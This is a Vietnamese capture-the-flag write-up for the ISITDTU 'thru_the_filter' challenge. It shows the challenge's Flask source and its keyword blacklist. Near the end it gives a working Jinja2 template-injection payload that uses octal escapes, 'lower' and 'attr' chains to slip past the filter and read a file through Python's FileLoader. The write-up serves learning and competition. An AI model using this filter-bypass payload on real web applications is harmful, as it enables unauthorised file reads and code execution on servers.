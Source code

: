 # thru_the_filterthru_the_filter
**Solver: phulelouch & goldensang**

### 1. Context
Nhìn sơ qua các file nhé
*docker-entrypoint.sh*
```shell
#!/bin/sh

# Generate random flag name
random_flag_name="flag_$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 10 | head -n 1).txt"

# Specify flag content
flag_content="ISITDTU{test_flag}"

# Move flag file to root directory
echo "$flag_content" > /"$random_flag_name"

# Set permissions for flag file
chmod 744 /"$random_flag_name"

# Get the user
user=$(ls /home)

# Set permissions for /app directory
chmod 740 /app/*

# Change directory and run Flask
cd /app && flask run -h 0.0.0.0 -p 8080
```
*Dockerfile*
```shell
FROM python:3.10-slim-bullseye
LABEL auther_template="khanhhnahk1"


RUN sed -i 's/deb.debian.org/mirrors.ustc.edu.cn/g' /etc/apt/sources.list && \
    sed -i 's/security.debian.org/mirrors.ustc.edu.cn/g' /etc/apt/sources.list
RUN apt-get update 

# install flask
RUN python3 -m pip install -i https://pypi.tuna.tsinghua.edu.cn/simple \
    flask

# Copy the source code and startup script to the root directory
COPY ./src/ /app
COPY ./service/docker-entrypoint.sh /

# expose port
EXPOSE 8080
RUN groupadd -r thru_the_filter && useradd -r -g thru_the_filter thru_the_filter
RUN echo "ISITDTU{test_flag}"> /app/flag.txt
RUN chmod 440 /app/flag.txt
RUN chown -R root:thru_the_filter /app


USER thru_the_filter

WORKDIR /app
ENTRYPOINT ["/bin/bash","/docker-entrypoint.sh"]
```
*app.py*
```python
from flask import Flask, request, render_template_string,redirect

app = Flask(__name__)
def check_payload(payload):
    blacklist = ['import', 'request', 'init', '_', 'b', 'lipsum', 'os', 'globals', 'popen', 'mro', 'cycler', 'joiner', 'u','g','args', 'get_flashed_messages', 'base', '[',']','builtins', 'namespace', 'self', 'url_for', 'getitem','.','eval','update','config','read','dict']
    for bl in blacklist:
        if bl in payload:
            print(bl)
            return True
    return False
@app.route("/")
def home():
    if request.args.get('c'):
        ssti=request.args.get('c')
        if(check_payload(ssti)):
            return "HOLD UP !!!"
        else:
            return render_template_string(request.args.get('c'))
    else:
        return redirect("""/?c={{ 7*7 }}""")


if __name__ == "__main__":
    app.run()

```

Nhìn sơ qua app thì ta có thể thấy được, flow chạy của application sẽ như sau:
- Build application với Dockerfile với image là:  python:3.10-slim-bullseye
- Dockerfile sẽ trỏ tới docker-entrypoint.sh
- docker-entrypoint.sh sẽ chạy file app.py dùng Flask.

Observation từ các file docker nói chung:
- những cái màu mè từ phải docker-entrypoint.sh có thể bỏ qua, flag dc lưu ở /app/flag.txt như trong file Dockerfile, chủ yếu là distraction, những cái màu mè ở file docker-entrypoint.sh thì làm mọi ng distract, nếu có RCE thì may ra làm theo hướng exploit cái đó dc :v còn không thì nên focus vô.
- file flag dc set quyền 440, nghĩa là chỉ owner của file với group dc trao quyền mới đọc được, nghĩa là phải exec code từ server-side, và tìm cách đẩy lên browser để mà ae mình lấy flag -> ý tưởng SSTI
- trong lúc làm bài, có ý tưởng làm XSS, nhưng code exec ở phía client-side, nên cũng no-hope.

Phân tích *app.py*:
- Xài Flask, và có một checkpoint check blacklist trong string, chỉ cần match string là fail
- Và blacklist khá gắt, nên phải tìm cách bypass từng cái một
- render_template_string() là nơi có thể exploit nhất, đặc biệt với SSTI, giờ chỉ cần tìm payload phù hợp
- đọc thêm SSTI ở: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

Tóm tắt SSTI ở bài này:
- Cơ chế hoạt động là nó xài Jinja String Template để render HTML, nói nôm na là 1 file template HTML, nó có những syntax để mình bỏ biến vô, nhưng rất hạn chế.
- Payload để prove SSTI work với bài này mà mình với anh Phú xài: `http://34.124.244.195:1338/?c={{7*7}}`
- blacklist block hết các hàm phổ biến, nên phải mò kinh thánh một hồi mới mò ra được các thứ nó work

Cách mình với anh Phú xây dựng payload:
```
http://34.124.244.195:1338/?c={{7*7}}

Dựa trên phần Jinja2 - Filter bypass kinh thánh, thì tụi mình test thử payload này

{{request|attr('application')()}}
Mà nó chặn request rồi, mà tụi nó không chặn string nên payload nó thành như vầy

{{ ''.__class__.__mro__[2].__subclasses__()}}

Nhưng gặp phải blacklist _, [, ] và cả class, sau một hồi mình mò, thì nhận ra là combine 2 tụi nó lại, tụi mình có thể forge payload nó nhin như thế này:
{{'' | attr('asdfsdaf')()}}

Thì nó chuyển về xử lý string hết, và attr() ko bị block
- Để solve _ thì tụi mình có thể convert nó qua %x5f, %X5f, và bí một hồi thì mới nhận ra chuyển qua octa cũng được =)) nên thành \137
- Có được insights này thì tụi mình nhận ra là convert những ký đặc biệt bị block qua octa, và những từ bị block thành dạng 'ABC' | lower (này search chatgpt với google ra dc syntax của Jinja, syntax tụi nó vậy)

'ABC' | lower => 'abc'
'\137' => '_' 
Rồi với những insights này thì việc còn lại là dò theo payload, convert nó qua định dạng không bị block, ban đầu tụi mình thử exploits hàm Popen, mà nó bủh quá, anh Phú tìm 1 hồi ra được cái hàm FileLoader trong hệ thống của python

Payload:
http://34.124.244.195:1338/?c={{''|
attr('\137\137CLASS\137\137'|lower)|
attr('\137\137MRO\137\137'|lower)|
last|
attr('\137\137SUBCLASSES\137\137'%20|%20lower()|
attr('\137\137GETITEM\137\137'%20|%20lower)(118)("/ETC/PASSWD","/ETC/PASSWD")|
attr('GET\137DATA'%20|%20lower)("FLAG\056TXT"|lower)}}

Tóm tắt cơ chế hoạt động, thì python nó có chỗ lưu các biến, hàm global hoặc ngoài context của class, cái này mọi người đọc.
Thì mò một hồi, ra được cái hàm này :v đấm phát ăn luôn flag
b'ISITDTU{tough_times_create_tough_guys!@@%#0@}\n'
```
